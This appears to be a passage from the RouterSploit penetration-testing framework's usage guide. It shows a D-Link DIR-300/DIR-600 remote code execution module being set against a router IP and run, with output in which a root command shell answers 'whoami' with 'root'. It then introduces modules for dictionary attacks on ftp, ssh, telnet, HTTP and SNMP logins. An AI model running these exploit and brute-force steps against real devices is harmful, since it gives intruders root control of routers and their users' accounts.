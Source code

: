 	rsf (D-LINK DIR-300 & DIR-600 RCE) > set target http://192.168.1.1
	[+] {'target': 'http://192.168.1.1'}

### Run module

Exploiting target can be achieved by issuing 'run' or 'exploit' command:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > run
	[+] Target is vulnerable
	[*] Invoking command loop...
	cmd > whoami
	root

It is also possible to check if the target is vulnerable to particular exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > check
	[+] Target is vulnerable

### Info

Display information about exploit:

	rsf (D-LINK DIR-300 & DIR-600 RCE) > show info

	Name:
	D-LINK DIR-300 & DIR-600 RCE

	Description:
	Module exploits D-Link DIR-300, DIR-600 Remote Code Execution vulnerability which allows executing command on operating system level with root privileges.

	Devices:
	- D-Link DIR 300
	- D-Link DIR 600

	Authors:
	- Michael Messner <devnull[at]s3cur1ty.de> # vulnerability discovery
	- Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

	References:
	- http://www.dlink.com/uk/en/home-solutions/connect/routers/dir-600-wireless-n-150-home-router
	- http://www.s3cur1ty.de/home-network-horror-days
	- http://www.s3cur1ty.de/m1adv2013-003

## 2. Creds

### Pick module

Modules located under creds/ directory allow running dictionary attacks against various network services.

Following services are currently supported:

- ftp
- ssh
- telnet
- http basic auth
- http form auth
- snmp
